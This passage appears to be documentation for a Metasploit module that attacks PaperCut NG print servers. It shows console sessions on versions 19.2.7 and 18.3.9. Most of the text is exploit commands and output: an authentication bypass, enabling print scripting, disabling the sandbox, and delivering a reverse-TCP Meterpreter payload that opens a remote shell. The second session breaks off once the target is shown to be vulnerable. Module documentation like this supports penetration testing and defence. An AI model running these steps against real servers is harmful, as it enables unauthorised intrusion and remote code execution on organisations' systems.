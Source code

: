 ```
[*] Setting server option 'print-and-device.script.enabled' to 'N') was 'Y'

meterpreter >
```
Note: Sandboxing is enabled by default in this version, scripting must be enabled and sandboxing must be disabled.


### Tested on Linux x64 with PaperCut NG Version 19.2.7.62200
```
msf > use exploit/multi/http/papercut_ng_auth_bypass
[*] No payload configured, defaulting to java/meterpreter/reverse_tcp
msf exploit(multi/http/papercut_ng_auth_bypass) > set VERBOSE true
VERBOSE => true
msf exploit(multi/http/papercut_ng_auth_bypass) > set RHOSTS 10.0.4.101
RHOSTS => 10.0.4.101
msf exploit(multi/http/papercut_ng_auth_bypass) > set LHOST 10.0.4.101
LHOST => 10.0.4.101
msf exploit(multi/http/papercut_ng_auth_bypass) > run

[-] Handler failed to bind to 10.0.4.101:4444:-  -
[*] Started reverse TCP handler on 0.0.0.0:4444
[*] Running automatic check ("set AutoCheck false" to disable)
[+] Bypass successful and created session: JSESSIONID=node01j4of6hup0i131vs585edo0uqb2.node0
[+] The target is vulnerable.
[*] Setting server option 'print-and-device.script.enabled' to 'Y') was 'N'
[*] Setting server option 'print.script.sandboxed' to 'N') was 'Y'
[*] Using URL: http://10.0.4.101:8080/PWMM7S32xpRY7
[*] Server started.
[*] Sending payload for requested uri: /PWMM7S32xpRY7.jar
[*] Sending payload for requested uri: /PWMM7S32xpRY7.jar
[*] Sending stage (58851 bytes) to 10.0.2.100
[*] Meterpreter session 1 opened (10.0.2.100:4444 -> 10.0.2.100:35072) at 2023-05-11 01:25:25 +0000
[*] Server stopped.
[*] Rolling back 'print.script.sandboxed' to 'Y'
[*] Setting server option 'print.script.sandboxed' to 'Y') was 'N'
[*] Rolling back 'print-and-device.script.enabled' to 'N'
[*] Setting server option 'print-and-device.script.enabled' to 'N') was 'Y'

meterpreter >
```
Note: Sandboxing is enabled by default in this version, scripting must be enabled and sandboxing must be disabled.


### Tested on Linux x64 with PaperCut NG Version 18.3.9.49588d
```
msf > use exploit/multi/http/papercut_ng_auth_bypass
[*] No payload configured, defaulting to java/meterpreter/reverse_tcp
msf exploit(multi/http/papercut_ng_auth_bypass) > set VERBOSE true
VERBOSE => true
msf exploit(multi/http/papercut_ng_auth_bypass) > set RHOSTS 10.0.4.101
RHOSTS => 10.0.4.101
msf exploit(multi/http/papercut_ng_auth_bypass) > set LHOST 10.0.4.101
LHOST => 10.0.4.101
msf exploit(multi/http/papercut_ng_auth_bypass) > run

[-] Handler failed to bind to 10.0.4.101:4444:-  -
[*] Started reverse TCP handler on 0.0.0.0:4444
[*] Running automatic check ("set AutoCheck false" to disable)
[+] Bypass successful and created session: JSESSIONID=node0re9f1cbww5v11qgrc7y4g9qv3.node0
[+] The target is vulnerable.
```
